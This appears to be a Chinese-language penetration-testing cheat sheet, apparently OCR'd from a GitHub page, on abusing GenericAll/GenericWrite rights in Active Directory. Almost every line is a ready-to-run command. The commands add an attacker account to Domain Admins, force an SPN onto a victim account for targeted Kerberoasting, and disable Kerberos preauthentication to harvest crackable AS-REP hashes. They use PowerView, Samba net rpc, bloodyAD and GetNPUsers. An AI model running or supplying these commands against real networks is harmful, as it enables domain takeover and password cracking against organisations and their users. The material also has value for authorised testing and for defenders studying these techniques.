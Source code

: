 	使用ADACLScanner检查用户的 ACL
	https://github.com/canix1/ADACLScanner
	>ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
	GenericAll on User : 可以在不知道当前密码的情况下重置用户密码
	GenericAll on Group：允许将自己（攻击者）添加到 Domain Admin 组
	在 Windows 上：net group "domain admins" hacker /add /domain
	在 Linux 上：
	使用 Samba 软件套件
	>net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
	使用bloodyAD
	>bloodyAD.py --host [DC IP] -d DOMAIN -u hacker -p MyPassword123 addObjectToGroup UserToAdd 'GROUP NAME'
 #### GenericAll/GenericWrite：我们可以在目标帐户上设置一个SPN，请求一个 TGS，然后获取它的哈希并对其进行 kerberoast
	检查帐户权限
	>Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
	检查当前用户是否已经设置了 SPN
	PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname
	强制在账户上设置 SPN：Targeted Kerberoasting
	PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
	PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}
	获取票据
	PowerView2 > $User = Get-DomainUser username 
	PowerView2 > $User | Get-DomainSPNTicket | fl
	PowerView2 > $User | Select serviceprincipalname
	移除SPN
	PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
 #### GenericAll/GenericWrite：我们可以将受害者的userAccountControl更改为不需要 Kerberos 预身份验证，获取用户的可破解 AS-REP，然后将设置更改回来。
	Windows 上
	修改userAccountControl
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	获取票据
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username
	改回修改userAccountControl
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	Linux 上
	修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user
	获取票据
	>GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	改回修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user false